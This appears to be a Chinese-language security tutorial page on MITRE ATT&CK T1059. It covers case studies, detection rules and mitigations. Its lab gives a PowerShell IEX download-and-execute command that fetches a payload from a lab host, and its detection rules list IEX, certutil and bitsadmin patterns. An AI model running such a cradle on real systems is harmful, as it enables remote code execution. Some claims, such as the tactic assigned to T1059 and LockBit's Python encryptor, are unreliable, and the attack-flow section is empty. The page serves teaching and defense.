

# 命令和脚本解释器 (T1059)

## 一句话通俗理解

攻击者利用系统自带的脚本工具（如PowerShell、Bash）来执行恶意命令，这样安全软件看到的是"系统自己在运行脚本"，而不是不明软件在搞破坏。

## 难度等级

⭐⭐ 中级（需要一定基础）

## 技术描述

命令和脚本解释器（T1059）是MITRE ATT&CK框架中隐蔽战术的一种技术。

**通俗解释：**
假设你现在在图书馆里，你想传递一个秘密消息给对面的人。如果你直接大喊，所有人都会听到。但如果你利用图书馆的内部电话系统喊一个管理员，让他帮你转达——管理员的声音在图书馆里是"合法"的，不会引起注意。攻击者也是一样：他们不直接用恶意软件运行恶意代码，而是"借用"系统自带的PowerShell、Bash、Python等工具来执行命令。因为这些都是系统合法的管理工具，安全软件通常会放行。

**技术原理：**
操作系统内置了多种脚本解释器，用于管理和自动化任务。攻击者利用这些工具：
1. **PowerShell**：Windows最强大的管理工具，可以执行任意.NET代码
2. **Bash**：Linux的标准Shell，用于执行系统命令和脚本
3. **cmd/bat**：Windows传统命令行
4. **Python**：跨平台的强大脚本语言
5. **JavaScript/VBScript**：在Windows脚本宿主（WSH）中执行

**用途与影响：**
命令和脚本解释器是攻击者最常用的执行手段之一。因为是系统原生工具，不需要上传额外的二进制文件，减少了被检测的风险。攻击者通常用PowerShell执行无文件攻击：直接在内存中加载恶意代码，不写任何文件到磁盘。

## 子技术列表

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1059.001 | PowerShell | 利用PowerShell执行恶意脚本，最常用的子技术 |
| T1059.002 | AppleScript | macOS上的脚本语言，用于自动化操作 |
| T1059.003 | Windows命令Shell | 使用cmd.exe执行批处理命令 |
| T1059.004 | Unix Shell | 使用Bash/sh执行Linux命令 |
| T1059.005 | Visual Basic | 通过VBScript执行恶意脚本 |
| T1059.006 | Python | 使用Python解释器执行恶意代码 |
| T1059.007 | JavaScript | 在Windows脚本宿主中执行JS代码 |
| T1059.008 | Network Device CLI | 在网络设备（如路由器）上执行命令 |
| T1059.009 | Cloud API | 利用云平台的API执行命令 |

## 攻击流程



## 真实案例

### 案例1：Emotet 使用PowerShell作为主要执行手段（2018-2023）

- **时间**: 2018-2023年
- **目标**: 全球企业
- **攻击组织**: Mummy Spider (TA542)
- **手法**: Emotet通过恶意文档宏启动PowerShell，下载并执行后续恶意负载。使用大量混淆技术，创建计划任务实现持久化。
- **参考链接**: [MITRE - Emotet](https://attack.mitre.org/software/S0367/)

### 案例2：SolarWinds 攻击中的PowerShell后门（2020）

- **时间**: 2020年
- **目标**: 美国政府机构
- **攻击组织**: APT29
- **手法**: SUNBURST后门使用PowerShell脚本进行横向移动和数据窃取，将恶意PowerShell脚本伪装成系统管理命令。
- **参考链接**: [CISA - SolarWinds](https://www.cisa.gov/solarwinds)

### 案例3：LockBit 3.0 使用Python脚本执行（2022-2024）

- **时间**: 2022-2024年
- **目标**: 全球企业
- **攻击组织**: LockBit
- **手法**: LockBit 3.0使用Python编写的加密器，攻击过程中调用系统Python解释器执行加密脚本。利用Python的跨平台特性，同一套代码可用于Windows和Linux。
- **参考链接**: [Trend Micro - LockBit 3.0](https://www.trendmicro.com/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| PowerShell Empire | 基于PowerShell的后渗透框架 | Windows | https://github.com/BC-SECURITY/Empire/ |
| CrackMapExec | 利用PowerShell进行横向移动 | Windows | https://github.com/byt3bl33d3r/CrackMapExec |
| PyPy | 打包Python解释器避免依赖 | 跨平台 | https://www.pypy.org/ |

## 蓝队视角

### 检测要点

- 监控PowerShell ScriptBlock日志（Event ID 4104）
- 检测Office应用调用PowerShell的异常行为
- 关注powershell.exe的EncodedCommand参数使用
- 检测非交互式的PowerShell会话

## 检测建议

### 网络层检测

**检测方法：** 监控PowerShell、cmd等脚本解释器发起的异常网络连接，特别是下载执行（IEX、wget、curl）模式和向可疑域名的DNS查询。

**具体规则/命令示例：**
```
# 检测PowerShell下载字符串的网络流量
suricata -r traffic.pcap --rule "alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:\"PowerShell Download Pattern\"; content:\"IEX\"; nocase; sid:1000017;)"

# 检测脚本解释器异常调用系统网络工具
zeek -r traffic.pcap | grep -E "powershell|cmd" | grep "net use\|bitsadmin\|certutil"
```

**Sigma规则示例：**
```yaml
title: Office应用启动PowerShell
status: experimental
description: 检测Word或Excel启动PowerShell（可疑的宏行为）
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith:
            - '\WINWORD.EXE'
            - '\EXCEL.EXE'
        Image|endswith: '\powershell.exe'
    condition: selection
level: high
tags:
    - attack.t1059
```

## 缓解措施

### 优先级1：关键措施
**PowerShell安全配置：**
- 启用PowerShell ScriptBlock Logging（Event ID 4104）记录所有脚本内容
- 启用PowerShell模块日志记录和转录功能
- 设置PowerShell执行策略为RemoteSigned或更严格
- 配置PowerShell Constrained Language Mode限制脚本能力

### 优先级2：重要措施
**脚本解释器管控：**
- 使用WDAC或AppLocker限制脚本解释器的使用
- 阻止Office应用调用PowerShell、cmd等脚本解释器（ASR规则）
- 对Python、VBScript等解释器实施最小权限执行

### 优先级3：建议措施
**监控与审计：**
- 监控cmd.exe和powershell.exe的非交互式调用
- 检测EncodedCommand参数的使用（攻击者常用绕过手段）
- 建立脚本执行基线，标记异常行为

### MITRE ATT&CK缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1042 | 禁用或移除功能 | 适用 | 禁用非必要的脚本解释器（如VBScript） |
| M1038 | 执行防护 | 适用 | 启用PowerShell Constrained Language Mode |
| M1021 | 限制程序执行 | 适用 | 使用AppLocker限制脚本解释器调用 |
| M1026 | 特权账户管理 | 适用 | 限制PowerShell执行的管理员权限 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：PowerShell下载执行（初级）

**实验步骤：**
1. 在Kali中启动HTTP服务器：`python3 -m http.server 80`
2. 在Windows中执行：`powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.txt')"`
3. 观察Process Monitor中的网络连接

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 脚本解释器 | Scripting Interpreter | 读取并执行脚本代码的程序，像翻译官把脚本语言翻译成机器指令 |
| 无文件攻击 | Fileless Attack | 不写文件到硬盘，直接在内存中执行恶意代码 |
| IEX | Invoke-Expression | PowerShell中把字符串当作代码执行的命令 |
| LOLBin | Living Off the Land Binary | 系统自带的合法工具，被攻击者用来"借刀杀人" |

## 参考资料

- [MITRE ATT&CK - T1059 Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [PowerShell ScriptBlock Logging](https://docs.microsoft.com/en-us/powershell/)
- [LOLBAS Project](https://lolbas-project.github.io/)
